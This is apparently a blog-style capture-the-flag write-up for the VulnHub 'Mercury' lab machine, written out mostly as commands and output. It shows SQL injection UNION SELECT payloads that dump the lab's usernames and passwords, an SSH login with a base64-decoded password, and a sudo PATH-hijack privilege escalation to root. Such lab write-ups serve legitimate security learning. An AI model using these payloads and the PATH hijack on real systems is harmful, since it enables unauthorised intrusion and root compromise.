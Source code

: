 ```yaml
---
layout: post
title:  "Mercury - VulnHub"
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/the-planets-mercury,544/`

- Difficulty : Medium

## SQL injection
## Step 1
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
{% endhighlight %}


## Step 2
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/
 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
{% endhighlight %}

## SSH webmaster, find encoded passwords
{% highlight sh %}
  cd mecury_proj/
  ls
  cat notes.txt
{% endhighlight %}

## Base64 decode the password
{% highlight sh %}
echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
{% endhighlight %}

## SSH linuxmaster

- linuxmaster:mercurymeandiameteris4880km

```sh
(root : root) SETENV: /usr/bin/check_syslog.sh
```

```sh
cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

```sh
echo "/bin/bash" > tail
chmod 777 tail
export PATH=.:$PATH
sudo PATH=$PATH /usr/bin/check_syslog.sh
```